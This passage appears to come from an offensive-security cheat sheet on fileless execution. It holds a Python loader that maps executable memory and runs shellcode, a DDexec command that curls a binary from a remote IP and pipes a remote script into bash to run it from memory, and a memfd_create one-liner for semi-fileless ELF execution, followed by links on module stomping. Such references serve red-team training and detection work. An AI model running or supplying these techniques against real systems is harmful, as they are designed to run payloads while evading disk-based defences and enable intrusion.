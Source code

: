 ```python
mmap.restype = c_void_p
page_size = pythonapi.getpagesize()
sc_size = len(sc)

mem_size = page_size * (1 + sc_size / page_size)
cptr = mmap(0, int(mem_size), PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0)

memmove(cptr, sc, sc_size)
sc = CFUNCTYPE(c_void_p, c_void_p)
call_sc = cast(cptr, sc)
call_sc(None)
```
{% endcode %}



### DDexec

- [https://github.com/arget13/DDexec](https://github.com/arget13/DDexec)

{% embed url="https://youtu.be/MaBurwnrI4s" %}

Run binaries from memory without touching the disk:

```
$1 base64 /bin/ls -w0 > ls.b64
$2 curl -sS 10.10.13.37/ls.b64 | bash <(curl -sSL https://github.com/arget13/DDexec/raw/main/ddexec.sh) /bin/NonExistentBinary -la
```

Another trick to do semi-fileless ELF execution with a pre-created process descriptor:

```
$ python3 -c 'import os;os.fork()or(os.setsid(),print(f"/proc/{os.getpid()}/fd/{os.memfd_create(str())}"),os.kill(os.getpid(),19))'
$ cat /usr/bin/date > /proc/1732982/fd/4
$ /proc/1732982/fd/4
```




## Module Stomping

- [https://offensivedefence.co.uk/posts/module-stomping/](https://offensivedefence.co.uk/posts/module-stomping/)
- [https://github.com/rasta-mouse/TikiTorch/blob/master/TikiLoader/Stomper.cs](https://github.com/rasta-mouse/TikiTorch/blob/master/TikiLoader/Stomper.cs)
- [https://labs.cognisys.group/posts/Advanced-Module-Stomping-and-Heap-Stack-Encryption/](https://labs.cognisys.group/posts/Advanced-Module-Stomping-and-Heap-Stack-Encryption/)
- [https://github.com/CognisysGroup/SweetDreams](https://github.com/CognisysGroup/SweetDreams)




## Function Stomping / Threadless Injection
